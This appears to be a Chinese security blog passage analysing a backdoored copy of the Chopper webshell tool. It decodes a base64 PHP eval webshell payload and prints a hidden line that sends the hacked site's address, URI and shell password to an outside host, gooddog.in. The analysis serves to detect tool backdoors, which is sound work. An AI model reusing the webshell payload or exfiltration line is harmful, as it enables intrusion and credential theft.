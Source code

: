 被 urlencode+base64 了，看着有点乱，先 urldecode 下：

```
a=$\_=strrev(edoced\_46esab);@eval($\_($\_POST\[z0\]));&z0=QGV2YWwoYmFzZTY0X2RlY29kZSgnYVdZb0pGOURUMDlM
U1VWYkoweDVhMlVuWFNFOU1TbDdjMlYwWTI5dmEybGxLQ2RNZVd0bEp5d3hLVHRBWm1sc1pTZ25hSFIwY0RvdkwzZD
NkeTVuYjI5a1pHOW5MbWx1TDBGd2FTNXdhSEEvVlhKc1BTY3VKRjlUUlZKV1JWSmJKMGhVVkZCZlNFOVRWQ2RkTGlSZlU
wVlNWa1ZTV3lkU1JWRlZSVk5VWDFWU1NTZGRMaWNtVUdGemN6MG5MbXRsZVNna1gxQlBVMVFwS1R0OScpKTtAaW5p
X3NldCgiZGlzcGxheV9lcnJvcnMiLCIwIik7QHNldF90aW1lX2xpbWl0KDApO0BzZXRfbWFnaWNfcXVvdGVzX3J1bnRpbWUo
MCk7ZWNobygiLT58Iik7OyREPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTtpZigkRD09IiIpJEQ9ZGl
ybmFtZSgkX1NFUlZFUlsiUEFUSF9UUkFOU0xBVEVEIl0pOyRSPSJ7JER9XHQiO2lmKHN1YnN0cigkRCwwLDEpIT0iLyIpe2Z
vcmVhY2gocmFuZ2UoIkEiLCJaIikgYXMgJEwpaWYoaXNfZGlyKCJ7JEx9OiIpKSRSLj0ieyRMfToiO30kUi49Ilx0IjskdT0oZnV
uY3Rpb25fZXhpc3RzKCdwb3NpeF9nZXRlZ2lkJykpP0Bwb3NpeF9nZXRwd3VpZChAcG9zaXhfZ2V0ZXVpZCgpKTonJzskdXN
yPSgkdSk/JHVbJ25hbWUnXTpAZ2V0X2N1cnJlbnRfdXNlcigpOyRSLj1waHBfdW5hbWUoKTskUi49Iih7JHVzcn0pIjtwcmlud
CAkUjs7ZWNobygifDwtIik7ZGllKCk7\_
```

毫无疑问，我们需要分析的是 z0 这个被 base64 的部分，解码看看：

```
@eval(base64\_decode(\*aWYoJF9DT09LSUVbJ0x5a2UnXSE9MSl7c2V0Y29va2llKCdMeWtlJywxKTtAZmlsZSgnaHR0cDovL
3d3dy5nb29kZG9nLmluL0FwaS5waHA/VXJsPScuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLiRfU0VSVkVSWydSRVFVRVNUX1
VSSSddLicmUGFzcz0nLmtleSgkX1BPU1QpKTt9\*));@ini\_set("display\_errors","0");@set\_time\_limit(0);@set\_magic\_quotes\_
runtime(0);echo("->|");;$D=dirname($\_SERVER\["SCRIPT\_FILENAME"\]);if($D=="")$D=dirname($\_SERVER\["PATH\_TRANSLATED"\]);$R="{$D}\\t";if(substr($D,0,1)!="/"){foreach(range("A","Z") as $L)if(is\_dir("{$L}:"))$R.="{$L}:";}$R.="\\t";$u=(function\_exists(\*posix\_getegid\*))?@posix\_getpwuid(@posix\_geteuid()):\*\*;$usr=($u)?$u\[\*name\*\]:@get\_current\_user();$R.=php\_uname();$R.="({$usr})";print $R;;echo("|<-");die();
```

后面一部分是熟悉的菜刀的代码，但前面为什么居然还有一段加密的呢，接着解, 解出来的结果

```
if($\_COOKIE\[\*Lyke\*\]!=1){setcookie(\*Lyke\*,1);@file(\*http://www.gooddog.in/Api.php?Url=\*.$\_SERVER\[\*HTTP\_HOST\*\].$\_SERVER\[\*REQUEST\_URI\*\].\*&Pass=\*.key($\_POST));}
```

这里的 http://www.gooddog.in/Api.php 就是这个菜刀的后门地址。

HTTP\_HOST 就是我们拿到 shell 的网站，REQUEST\_URI 就是 shell 的 URI,Pass 就是我们菜刀连接一句话时的密码

这段代码的大概意思就是，会将我们拿到 shell 的网站的地址，密码等都通过后门传送给这个网站的所有者。

这样，我们就分析出了这个菜刀是存在后门的。

0x04 总结
=======

整个分析的过程，基本上没有什么难的地方。以后在网上下载一些报毒的文件，都可以这样来分析一下会不会被植入了后门，像前一阵子的 phpstudy 一样，引起了很大的风波。

参考链接
====

http://www.hetianlab.com/expc.do?ce=85d14d4e-5b36-42b9-9415-453efa35de60

作者：madcoding，文章来源：madcoding’s blog

HACK 之道 发起了一个读者讨论 你曾分析过安全工具的后门吗 精选讨论内容

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)